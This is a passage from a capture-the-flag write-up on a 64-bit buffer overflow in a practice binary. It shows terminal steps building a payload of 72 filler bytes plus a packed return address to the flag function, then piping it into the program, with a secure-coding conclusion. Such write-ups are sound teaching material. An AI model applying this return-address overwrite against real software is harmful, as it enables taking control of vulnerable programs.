 - Craft the payload using python

```terminal
$ python 
>>> from pwn import *
>>> print ('A'*72)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
>>> p64(0x0000000000401236)
b'6\x12@\x00\x00\x00\x00\x00'
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6\x12@\x00\x00\x00\x00\x00" > payload.txt
```

3. Run the Program Locally Using Payload

```terminal
$ cat payload.txt| ./vuln
Welcome to 64-bit. Give me a string that gets you the flag: 
U got the flag
```
- **Differences on Remote Machine**
For some reason, the crafted return address does not work on the remote machine provided. The challenge hint suggests changing the return address to the one after the `push` instruction in the flag function.

## Conclusion

In this challenge, we successfully exploited a buffer overflow vulnerability in a 64-bit program to redirect the program's execution flow to the flag function, thereby retrieving the flag. The process involved identifying the overflow vulnerability due to the use of the unsafe gets function, calculating the correct offset to overwrite the return address, and crafting a payload to change the return address to the flag function's address.

Key takeaways include:

Identifying Vulnerabilities: Understanding the dangers of functions like gets which do not check buffer boundaries.
Calculating Offsets: Utilizing tools like GDB and Python to find precise offsets for buffer overflows.
Crafting Payloads: Creating payloads that exploit vulnerabilities to achieve desired outcomes, such as redirecting execution flow.
This challenge highlights the importance of secure coding practices and the necessity of thorough vulnerability testing to prevent exploitation.
